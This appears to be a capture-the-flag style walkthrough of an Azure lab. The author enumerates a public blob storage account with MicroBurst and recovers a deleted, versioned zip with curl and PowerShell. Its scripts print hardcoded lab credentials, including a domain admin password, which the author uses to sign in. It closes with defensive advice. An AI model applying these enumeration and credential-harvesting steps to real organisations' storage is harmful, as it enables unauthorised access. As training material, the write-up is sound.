






## Scenario:

```
Mega Big Tech have adopted a hybrid cloud architecture and continues to use a local on-premise Active Directory domain, as well as the Azure cloud. They are wary of being targeted due to their importance in the tech world, and have asked your team to assess the security of their infrastructure, including cloud services. An interesting URL has been found in some public documentation, and you are tasked with assessing it.

🚨 Mega Big Tech will begin rolling out their own External Authentication Provider to reduce yearly operating costs. However, threat actors have already compromised the custom provider and altered its configuration. As a result, any Multifactor Authentication (MFA) challenge will now automatically return as successful, ultimately satisfying any Conditional Access Policy (CAP) that requires the standalone-MFA grant control (as opposed to the Authentication Strength-MFA grant control).
```

## Walkthrough

I've been given the entry point of `http://dev.megabigtech.com/$web/index.html` with the task of enumerating Azure Blobs that may be tied to the domain and obtaining a flag.

For reference, Azure uses storage accounts, which can hold multiple containers, and those containers can hold Binary Large Objects (Blobs), which is just another fancy way of saying files.

Considering we're looking for files pulled from these containers, let's take a look at the network traffic when we load this website.

The URL for an Azure Blob Storage account is formatted as `https://<storage-account-name>.blob.core.windows.net`. Let's make sure we keep a lookout for that.


When loading the website, we see assets loaded from `https://mbtwebsite.blob.core.windows.net/$web`.

We can assume that `mbtwebsite` is the storage account name and `$web` is the container name.

There are also tools that will do this type of enumeration for us, `MicroBurst` being one of them. Once we import the `MicroBurst.psm1` module, we can use the function `Invoke-EnumerateAzureBlobs` to enumerate containers and blobs associated with the storage account. Since we now know the storage account name, let's do that to see if there are any additional containers not being identified by the network traffic.

```
PS C:\Users\jonat\Desktop\cloud\MicroBurst> Import-Module .\MicroBurst.psm1
PS C:\Users\jonat\Desktop\cloud\MicroBurst> Invoke-EnumerateAzureBlobs -Base mbtwebsite
Found Storage Account - mbtwebsite.blob.core.windows.net

Found Container - mbtwebsite.blob.core.windows.net/$web

Public File Available: https://mbtwebsite.blob.core.windows.net/$web/index.html
	Available version: 2023-10-20T20:08:20.2966464Z
	
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip
    Available version: 2025-08-07T21:08:03.6678148Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/application-0162b80622a4b825c801f8afcd695b5918649df6f9b26eb012974f9b00a777c5.css
    Available version: 2023-10-20T16:37:07.6851770Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/application-76970cb8dc49a9af2f2bbc74a0ec0781ef24ead86c4f7b6273577d16c2f1506a.js.download
    Available version: 2023-10-20T16:37:07.7741266Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/common.js.download
    Available version: 2023-10-20T16:37:07.7921160Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/css
    Available version: 2023-10-20T16:37:07.7911163Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/iframe_api
    Available version: 2023-10-20T16:37:07.7081650Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/jquery-3.6.0.min.js.download
    Available version: 2023-10-20T16:37:07.9850044Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/js
    Available version: 2023-10-20T16:37:08.2458554Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/magnific-popup-2f7f85183333c84a42262b5f8a4f8251958809e29fa31c65bdee53c4603502cd.css
    Available version: 2023-10-20T16:37:08.1818916Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/magnific-popup.min-37130bcc3f8b01fe7473f8bb60a9aea35dc77c05eedc37fbd70135363feb6999.js.download
    Available version: 2023-10-20T16:37:08.1878884Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/player.js.download
    Available version: 2023-10-20T16:37:08.2508522Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/swiper-18be8aa3f032dded246a45a9da3dafdb3934e39e1f1b3b623c1722f3152b2788.css
    Available version: 2023-10-20T16:37:08.2588469Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/swiper.min-d36969d50f8c2fa3a00a68e55fe929e3af3fdd249cf33fd128b6a17a410e2c59.js.download
    Available version: 2023-10-20T16:37:08.4657280Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/util.js.download
    Available version: 2023-10-20T16:37:08.5117021Z
    
Public File Available: https://mbtwebsite.blob.core.windows.net/$web/static/www-widgetapi.js.download
    Available version: 2023-10-20T16:37:08.5806628Z
```

This tool is nice since not only does it enumerate containers, it also enumerates the blobs within the container. All of them seem pretty uninteresting except `https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip`.

Theoretically, we could access blobs directly by browsing to the URL. For example, visiting `https://mbtwebsite.blob.core.windows.net/$web/index.html` shows the website we were just on.



However, browsing to `https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip` provides an error message of `The specified blob does not exist.`



Very interesting. After some research, it seems like something called "blob versioning" is the cause for `MicroBurst` outputting a blob that "doesn't exist". Blob versioning is an Azure Storage feature that automatically saves previous versions of a blob whenever it's modified or deleted, allowing you to restore or access older data versions. So when we call the `Invoke-EnumerateAzureBlobs` function in `MicroBurst`, it automatically checks for blob versioning, which can enumerate blobs that previously existed but do not currently exist.

We can verify this by querying the endpoint to list blobs with and without versioning directly.

In Linux, we could use the following one-liner to enumerate the current blobs:

`curl 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list' | xmllint --format - | less`

And this one-liner to query the previous versions of blobs that may have existed:

`curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions' | xmllint --format - | less`

Inspecting the difference between these two, the parameters in the URL to enumerate previous versions have `&include=versions`, which tells the API to include previous versions, and include the header `-H "x-ms-version: 2019-12-12"` because API support for versioning began in version `2019-12-12`. By directly including the version in the header, it ensures your query will be processed by the API properly.

Since I'm not querying from Linux, I asked ChatGPT to provide a PowerShell command to do essentially the same thing. Let's take a look.

Without Versioning:

Command:

```
$response = Invoke-WebRequest 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list'

# Strip BOM and parse properly
$content = $response.Content -replace '^\xEF\xBB\xBF', ''
[xml]$xml = $content

# Display blob names and URLs neatly
$xml.EnumerationResults.Blobs.Blob | ForEach-Object {
    [PSCustomObject]@{
        Name = $_.Name
        URL  = "$($xml.EnumerationResults.ServiceEndpoint)$($xml.EnumerationResults.ContainerName)/$($_.Name)"
        LastModified = $_.Properties.'Last-Modified'
        Size = $_.Properties.'Content-Length'
    }
} | Format-Table -AutoSize
```

Response:



With Versioning:

Command:

```
$response = Invoke-WebRequest 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions' -Headers @{ "x-ms-version" = "2019-12-12" }

# Strip BOM and parse properly
$content = $response.Content -replace '^\xEF\xBB\xBF', ''
[xml]$xml = $content

# Display blob names and URLs neatly
$xml.EnumerationResults.Blobs.Blob | ForEach-Object {
    [PSCustomObject]@{
        Name = $_.Name
        URL  = "$($xml.EnumerationResults.ServiceEndpoint)$($xml.EnumerationResults.ContainerName)/$($_.Name)"
        LastModified = $_.Properties.'Last-Modified'
        Size = $_.Properties.'Content-Length'
    }
} | Format-Table -AutoSize
```

Response: 

This confirms that the output from `MicroBurst` was indeed including previous blobs that may have been deleted. Now we can proceed with downloading the script. In order to download the script, we must include the versionId of the blob, which was included in the `MicroBurst` output (`2025-08-07T21:08:03.6678148Z`).

I switched to WSL for easier syntax.

```
indigo@LAPTOP-O49SNQSR:/mnt/c/Users/jonat/Desktop/cloud/MicroBurst/Azure-Blob-Inital-Access$ curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip?versionId=2025-08-07T21:08:03.6678148Z'  -o scripts-transfer.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1484  100  1484    0     0  13497      0 --:--:-- --:--:-- --:--:-- 13614


indigo@LAPTOP-O49SNQSR:/mnt/c/Users/jonat/Desktop/cloud/MicroBurst/Azure-Blob-Inital-Access$ unzip scripts-transfer.zip
Archive:  scripts-transfer.zip
  inflating: entra_users.ps1
  inflating: stale_computer_accounts.ps1
  
  
indigo@LAPTOP-O49SNQSR:/mnt/c/Users/jonat/Desktop/cloud/MicroBurst/Azure-Blob-Inital-Access$ cat entra_users.ps1
Import-Module MSAL.PS

# Username: marcus@megabigtech.com
# Password: TheEagles12345!

# Use Microsoft's public Azure PowerShell client ID
$ClientId = "04b07795-8ddb-461a-bbee-02f9e1bf7b46"
$TenantId = "common"  # Or use your actual tenant ID
$Scopes   = @("https://graph.microsoft.com/.default")

# Device code login (supports MFA)
$TokenResponse = Get-MsalToken -ClientId $ClientId -TenantId $TenantId -Scopes $Scopes -DeviceCode

# Use the access token in Graph API call
$AccessToken = $TokenResponse.AccessToken
$GraphApiUrl = "https://graph.microsoft.com/v1.0/users?`$select=displayName,userPrincipalName"

$headers = @{
    "Authorization" = "Bearer $AccessToken"
    "Content-Type"  = "application/json"
}

$response = Invoke-RestMethod -Uri $GraphApiUrl -Headers $headers -Method Get

# Show formatted output
$response.value | Format-Table displayName, userPrincipalName


indigo@LAPTOP-O49SNQSR:/mnt/c/Users/jonat/Desktop/cloud/MicroBurst/Azure-Blob-Inital-Access$ cat stale_computer_accounts.ps1
# Define the target domain and OU
$domain = "megabigtech.local"
$ouName = "Review"

# Set the threshold for stale computer accounts (adjust as needed)
$staleDays = 90  # Computers not modified in the last 90 days will be considered stale

# Hardcoded credentials
$securePassword = ConvertTo-SecureString "MegaBigTech123!" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ("marcus_adm", $securePassword)

# Get the current date
$currentDate = Get-Date

# Calculate the date threshold for stale accounts
$thresholdDate = $currentDate.AddDays(-$staleDays)

# Disable and move stale computer accounts to the "Review" OU
Get-ADComputer -Filter {(LastLogonTimeStamp -lt $thresholdDate) -and (Enabled -eq $true)} -SearchBase "DC=$domain" -Properties LastLogonTimeStamp -Credential $credential |
  ForEach-Object {
    $computerName = $_.Name
    $computerDistinguishedName = $_.DistinguishedName

    # Disable the computer account
    Disable-ADAccount -Identity $computerDistinguishedName -Credential $credential

    # Move the computer account to the "Review" OU
    Move-ADObject -Identity $computerDistinguishedName -TargetPath "OU=$ouName,DC=$domain" -Credential $credential

    Write-Host "Disabled and moved computer account: $computerName"
  }
```

There are a lot of things of interest here. First being hardcoded credentials stored in both scripts. `entra_users.ps1` seems to hold credentials for an Azure AD account `marcus@megabigtech.com:TheEagles12345!`, and `stale_computer_accounts.ps1` seems to hold credentials for a domain administrator account `marcus_adm:MegaBigTech123!`.

We can verify these credentials by both running the script and signing in with `az cli`. `entra_users.ps1` is dependent on the `MSAL.PS` module, so we must first install the module, then run the script.



Running the script, we must follow the authentication flow with a device code logon, and afterwards we're allowed to list all users in the domain.

Additionally, we can log in directly with az cli, query our user information, and retrieve the flag.


## Defensive Considerations

**Hardcoded Credentials:**
- First and foremost, hardcoded credentials should never be stored in a script. Even though I was able to pull soft-deleted files from the Azure storage blob, had they used an alternative such as Azure Key Vault and had the script pull the credentials and reference them at runtime, those credentials would have never been directly exposed to me, preventing initial access.

**Public Blob Access:**
- Second, why am I able to view the contents of the storage blob as an unauthenticated user? Public blob access should be disabled, and strict RBAC policies should be implemented to control who can access storage resources.